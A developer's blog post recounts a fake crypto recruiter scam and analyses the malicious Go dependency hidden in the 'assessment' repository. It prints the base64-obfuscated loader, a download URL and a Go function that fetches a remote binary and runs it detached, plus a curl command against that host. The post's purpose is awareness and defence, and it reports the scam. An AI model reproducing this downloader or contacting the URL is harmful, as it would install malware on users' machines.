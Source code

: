 ```yaml
---
title: "Having Fun With a Scamming Crypto Job"
date: 2025-04-09T00:17:16+07:00
draft: false
toc: true
tags:
- crypto
- scam
- fake-job
categories:
---
```


I'm going to cover what happened and the technical details of a crypto job scam
that I've avoided. Let's hope that it can be both entertaining and informative.

It's my second time encoutering this kind of scam. In the first time, I just
ignored it as the sign is too obvious: a non-fitting job (frontend heavy job for
a backend guy) where the recruiter is "impressed with my technical skills" and
think that I'm "an exellent fit". For this second time, I got fooled at first as
it is too good, and after I realized it's too good to be true and likely a scam,
instead of stopping early, I just got... more patient and curious about what's
behind. 

## The Conversation

It started with a message from a seemingly real recruiter from a prestige
company. I overjumped with joy as it's been a long time since the last ocassion
I'm reached out by a recruiter.

![](../images/crypto-job-scam-1.png)

The recruiter asked about a specific work in my resume. I felt that it's weird,
but tried to answer it at the best of my ability.

![](../images/crypto-job-scam-2.png)

However, things started getting weirder when I wanted more specific information
about the role and the team, but got a generic response. "One-hour technical
assessment" is rare in this employer's market as well. I decided to dig the
recruiter's LinkedIn profile and found that he/she isn't connected to any
employee in the company. The company itself has a career portal that wasn't
showing any available role that is fully remote nor for Vietnamese candidates.

![](../images/crypto-job-scam-3.png)

By now, I realized that it's highly a scam, but got curious about what's next,
so I stayed.

![](../images/crypto-job-scam-4.png)

I guessed that it'll involve downloading and running code, and I was right.

![](../images/crypto-job-scam-5.png)

## Code Analysis

Just poking around the files shouldn't cause any problem, but if you're
paranoid, you can use a lightweight sandbox like `firejail` to limit filesytem
access and network access.

```shell
firejail --net=none --private bash
```

`unzip`ing the compressed file should give us a regular code repository
[^code-main]. The dependencies also look normal at the first glance:

```
module unirouter

go 1.24.1

toolchain go1.24.2

require (
        github.com/TedCollin/uniroute/v2 v2.1.3
        github.com/ethereum/go-ethereum v1.14.11
        github.com/joho/godotenv v1.5.1
)

...
```

I double checked the primary dependencies, and everything is normal except for
`github.com/TedCollin/uniroute/v2` [^code-downloader]:

![](../images/crypto-job-scam-6.png)

The code in `uniroute.go` did confirm that there is something fishy going on:

```go
package uniroute

import "encoding/base64"

var (
        checksum = "aHR0cHM6Ly9kb3dubG9hZC5kYXRhdGFibGV0ZW1wbGF0ZS54eXovYWNjb3VudC9yZWdpc3Rlci9pZD04MTE4NTU1OTAyMDYxODk5JnNlY3JldD1Rd0xvT1pTRGFrRmg="
)

func GetUniRoute() {
        chsum, _ := base64.StdEncoding.DecodeString(checksum)
        fset(string(chsum))
}
```

Decoding `checksum` gives us:

```
https://download.datatabletemplate.xyz/account/register/id=8118555902061899&secret=QwLoOZSDakFh
```

There are different implementations of `fset` for each platform (Linux, Windows,
and MacOS), but the gist of it is to download the link above as a binary file
and execute it.

```go
func fset(data_path string) {
	tmpDir := os.TempDir()
	targetPath := filepath.Join(tmpDir, "init")

	// Create the file to write
	file, err := os.Create(targetPath)
	...

	// Perform the GET request
	// Create HTTP request
	req, err := http.NewRequest("GET", data_path, nil)
    ...

	// Set OS-specific header
	req.Header.Set("User-Agent", "lnux")

	// Perform the GET request
	client := &http.Client{}
	resp, err := client.Do(req)
	...

	// Write response to file
	_, err = io.Copy(file, resp.Body)
	...

	cmd := exec.Command("nohup", "bash", targetPath, "&")
	cmd.SysProcAttr = &syscall.SysProcAttr{
		Setsid: true,
	}

	cmd.Stderr = nil
	cmd.Stdin = nil
	cmd.Stdout = nil
	cmd.Start()
}
```

I tried downloading the binary file, but couldn't as there were errors with my
TLS (?).

```shell
curl -H 'User-Agent: lnux' 'https://download.datatabletemplate.xyz/account/register/id=8118555902061899&secret=QwLoOZSDakFh' -o binary
# curl: (35) TLS connect error: error:80000002:system library::No such file or directory
```

I decided not pushing it further. My guess is that the binary is a "wallet
drainer", a mallicious actor that read your sensitive data on the machine and
sent it to the scammer.

## Conclusion

By now, I hope you feel obvious that "if it's too good to be true, then it's
probably is (a scam)". But I can imagine why people fall for this: the
excitement of having a lucrative job offer blinds us from being rational.
Technical-wise, we should check the code we are going to run, including the
dependencies. Non-technical-wise, we should check:

- Nationality required: it's a red flag if the company is not hiring worldwide
  nor people from your country, and there is still a job
- Job's specific details: it's a red flag if the recruiter refuse to elaborate
  on the work and the technical stack and the team

Scamming is common in crypto world [^crypto-job-scams-article] and you can never
be too careful.

**Update**: following a suggestion on Tildes [^tildes-suggestion], I reported
the scam to:

- GitHub: asked them to look at the malware downloading repository
  [^code-downloader].
- Company R: told them that someone impersonated their recruiter.
- Namescheap, the registrar of the domain `datatabletemplate.xyz`: told them
  about what happened.
- Telegram, the platform that the conversation happened: told them about what
  happened.

[^code-main]: https://github.com/thanhnguyen2187/unirouter-compromised
[^code-downloader]: I [backed it
    up](https://github.com/thanhnguyen2187/uniroute-compromised) from the
    [original repository](https://github.com/TedCollin/uniroute/) (likely to be
    taken down after a while). 
[^crypto-job-scams-article]: https://cointelegraph.com/learn/articles/crypto-job-scams
[^tildes-suggestion]: https://tildes.net/~comp/1n9o/having_fun_with_a_scamming_crypto_job#comment-fbl8

